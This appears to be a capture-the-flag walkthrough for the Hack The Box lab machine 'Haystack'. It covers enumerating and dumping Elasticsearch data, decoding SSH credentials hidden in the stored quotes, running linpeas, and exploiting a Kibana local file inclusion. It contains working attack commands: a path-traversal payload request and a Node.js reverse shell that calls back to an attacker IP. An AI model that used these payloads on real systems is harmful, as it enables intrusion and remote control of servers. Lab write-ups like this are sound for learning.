 # Haystack

Info
* OS: Linux
* Difficulty: easy
* IP: `10.10.10.115`

Tags
* elasticsearch
* kibana

<!--

Required tools
* nmap

Other commands/tools
```
TODO
```

-->

## Walkthrough

* [IppSec](https://www.youtube.com/watch?v=oGO9MEIz_tI) (video)

### Enumeration

Nmap
```bash
nmap -sC -sV -oA nmap.out 10.10.10.115

# output
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

Nmap script
```bash
git clone --depth 1 https://github.com/theMiddleBlue/nmap-elasticsearch-nse.git /opt/nmap-elasticsearch-nse

ln -s /opt/nmap-elasticsearch-nse/elasticsearch.nse /usr/share/nmap/scripts/

# enumeration
nmap -p9200 --script=elasticsearch 10.10.10.115

# output
PORT     STATE SERVICE
9200/tcp open  wap-wsp
| elasticsearch: by theMiddle (Twitter: @AndreaTheMiddle)
| 
| found RESTful API
| version: 6.4.2
| cluster name: elasticsearch
| 
| Indices found in /_cat/indices:
| health index   docs.count
| green  .kibana          1
| yellow quotes         253
| yellow bank          1000
| 
| Plugins found in /_cat/plugins:
| 
| Nodes found in /_cat/nodes:
| 127.0.0.1 8 69 3 0.00 0.04 0.05 mdi * iQEYHgS
| 
| Nodes process:
|  - Name: iQEYHgS
|  - Transport Address: 127.0.0.1:9300
|  - Host: 127.0.0.1
|  - IP: 127.0.0.1
|  - Version: 6.4.2
|_
```

Explore Elasticsearch data

* [HackTricks](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)
* [Elasticsearch REST APIs](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html)

```bash
# version 6.4.2
http 10.10.10.115:9200

# not json
http 10.10.10.115:9200/_cat
# e.g. list indexes
http 10.10.10.115:9200/_cat/indices?v
http 10.10.10.115:9200/_cat/indices?help

# dump data limit 10
http 10.10.10.115:9200/bank/_search?pretty=true
# search on an index
http 10.10.10.115:9200/_search?pretty=true\&q=Rockwell

# dump data
http -b 10.10.10.115:9200/bank/_search?size=1000 | jq '.hits.hits[]._source.email' | tee bank-emails.txt
http -b 10.10.10.115:9200/quotes/_search?size=253 | jq '.hits.hits[]._source.quote' | tee quotes.txt
wc -l bank-emails.txt
```

Translate data

* [googletrans](https://pypi.org/project/googletrans)

```bash
# install dependencies
pip install requests googletrans==3.1.0a0

# run script
python exploit.py

# extract data
cat quotes-translated.txt | jq '.[]' | grep -i key
```

Script `exploit.py`
```python
#!/bin/python3
import requests, json
from googletrans import Translator

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=253')
quotes = json.loads(r.text)
translator = Translator()

results = []
for quote in quotes['hits']['hits']:
    q = quote['_source']['quote']
    qt = (translator.translate(q, src='es', dest='en')).text
    print(qt)
    print()
    results.append(qt)

with open('quotes-translated.txt', 'w') as filehandle:
    json.dump(results, filehandle)
```

Analyze data
```bash
# "This key cannot be lost, I keep it here: ???"
"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
# "pass: spanish.is.key"
echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d

# "I have to save the key for the machine: ???"
"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg"
# "user: security"
echo "dXNlcjogc2VjdXJpdHkg" | base64 -d

# spanish.is.key
ssh -o StrictHostKeyChecking=no security@10.10.10.115

# flag
cat /home/security/user.txt
```

### Lateral Movement

Upload privesc scripts
```bash
mkdir -p /share/www

curl -sS -L -o /share/www/linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# run static server
python3 -m http.server -d /share/www

# tun0 <IP_ADDRESS> of attacker
curl -o /dev/shm/linpeas.sh 10.10.14.14:8000/linpeas.sh
bash /dev/shm/linpeas.sh -a > /dev/shm/linpeas.txt

less -r /dev/shm/linpeas.txt

# it's running as ROOT
/usr/share/logstash
```

Kibana vulnerability

* [Local File Inclusion](https://github.com/mpgn/CVE-2018-17246)

```bash
# listening ipv4 ports
ss -4 -l -n

# port forward to attacker machine
ssh -N -L 5602:127.0.0.1:5601 security@10.10.10.115

# kibana version "6.4.2"
curl -sS http://127.0.0.1:5602/api/status | jq '.version.number'
```

Sample payload
```bash
echo 'console.log("Hello World");' > /tmp/hello.js
echo '(function(){console.log("Hello World");})();' > /tmp/hello.js
echo '(function(){require("fs").writeFile("/tmp/hello.txt", "Hello World");return /a/;})();' > /tmp/hello.js
# manual test
/usr/share/kibana/node/bin/node /tmp/hello.js

# kibana's log
tail -f /var/log/kibana/kibana.stdout

# from inside
curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../tmp/hello.js'

# from outside
http "http://127.0.0.1:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../tmp/hello.js"
```

Reverse shell
```bash
# vim /tmp/shell.js
(function(){
  var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(4242, "10.10.14.14", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/; // Prevents the Node.js application from crashing
})();

# listen
nc -lvnp 4242

# run payload
curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../../tmp/shell.js'
```

Upgrade shell
```bash
# in reverse-shell
python -c 'import pty; pty.spawn("/bin/bash")'

# background
CTRL+Z

# in attacker machine
stty raw -echo

# not typed
fg
ENTER
ENTER

# in reverse-shell
export TERM=xterm
```

